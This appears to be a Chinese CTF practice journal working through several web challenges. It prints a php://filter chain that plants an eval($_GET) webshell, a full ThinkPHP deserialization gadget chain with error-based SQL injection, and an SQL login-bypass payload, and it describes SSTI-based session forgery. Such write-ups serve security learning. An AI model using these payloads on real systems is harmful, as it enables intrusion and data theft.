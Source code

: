 # Day9-懒狗来打卡了

## 0x01 [WMCTF2020]Web Check in 2.0

绕过死亡exit，这是基本操作了，但是需要找到新的过滤器。懒狗想到这里就去看wp了。

```java
=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=6.php
```

还有一种方法是**segment**，就是那个qwb2021才考过的知识点。需要爆破，就不多说了

## 0x02 [CISCN2019 总决赛 Day1 Web3]Flask Message Board

这个题目到最后一步之前都挺简单的.....

![image-20220113093346679](https://img.dem0dem0.top/images/image-20220113093346679.png)

存在`ssti`，但是好像有限制，{{config}}，获取到sercret_key,伪造session，访问/admin，拿到源码，发现有tensorflow的模型，默默点开了[wp](https://github.com/RManLuo/ciscn2019_final_web4)。发现需要使用**tensorboard**审计模型。

安装环境

```bash
conda activate tensorflow-py3.6
conda install tensorflow
pip install tensorboard
```

使用`tensorboard --logdir ./log`

## 0x03 [红明谷CTF 2021]EasyTP

堆叠注入或者报错注入。

```java
<?php
namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;
        public function __construct(){
            $this->img = new Memcache();

        }
    }
}


namespace Think\Session\Driver{
    use Think\Model;

    class Memcache {
        protected $handle;
        public function __construct(){
            $this->handle = new Model();

        }
    }

}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model {
        protected $data=array();
        protected $pk;
        protected $options=array();
        protected $db=null;

        public function __construct()
        {
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                'where'=>'1=1',
                'table'=>'mysql.user where 1=updatexml(1,concat(0x7e,user(),0x7e),1)#'

            );


        }
    }
}


//初始化数据库连接
namespace Think\Db\Driver{
    use PDO;
    class Mysql {

        protected $config     = array(
            'debug'             =>   true,
            "charset"           =>  "utf8",
            'type'              =>  'mysql',     // 数据库类型
            'hostname'          =>  'localhost', // 服务器地址
            'database'          =>  'thinkphp',          // 数据库名
            'username'          =>  'root',      // 用户名
            'password'          =>  'root',          // 密码
            'hostport'          =>  '3306',        // 端口
        );
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启后才可读取文件
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => true,    //把堆叠开了，开启后可堆叠注入
        );


    }

}


namespace{
    echo base64_encode(serialize(new Think\Image\Driver\Imagick() ));
}


?>

```

## 0x04 [Black Watch 入群题]Web2

参考:https://blog.csdn.net/qq_44105778/article/details/89163304

https://blog.csdn.net/wangyuxiang946/article/details/120118721

```
我们使用万能用户名 a'/**/or/**/true/**/# 使SQL成立绕过用户名之后, 后台的SQL会查询出所有的用户信息, 然后依次判断查询处的用户名对应的密码和我们输入的密码是否相同, 这时候我们使用with rollup 对 group by 分组的结果再次进行求和统计, 由于with rollup 不会对group by 分组的字段( password)进行统计, 所以会在返回结果的最后一行用null来填充password, 这样一来我们的返回结果中就有了一个值为null的password , 只要我们登录的时候password输入框什么都不输, 那我么输入的password的值就是null, 跟查询出的用户密码相同( null == null), 从而登录成功
```

```
username=\&password=||1 group by token with rollup having token is NULL--+&question=1
```

分析一下这个payload，发现了一个新的语句，但是我不明白这个是干的？也不知道他在干嘛，注册普通用户默认token为0?,然后看token判断身份吗?

盲猜他的语句

```sql
select token from users where username= & password=
```

注入之后

```sql
select token from users where username="\" and passwrod=" ||  1 group by token with rollup having token is NULL--+"
```

精简一下

```sql
select token from users where username="a" || 1 group by token with rollup having token is NULL
```

最后返回的数据是token为null的一条数据。后面就是mysql链接，和一个目录绕过了

## 0x05 PyCalX 1&2

https://xz.aliyun.com/t/2456

其实这个题目最关键的位置在`repr`函数，他会引入单引号，导致逃逸，然后就可以使用两个特性

```
f'{}' 的代码执行
```

然后通过`source`来引入无法主测的变量。

两个payload就是`print(str(repr("a"))+str("+'")+str(repr("< b#")))`

## 0x06 [SWPUCTF 2016]Web7

CRLF+SSRF 无脑so

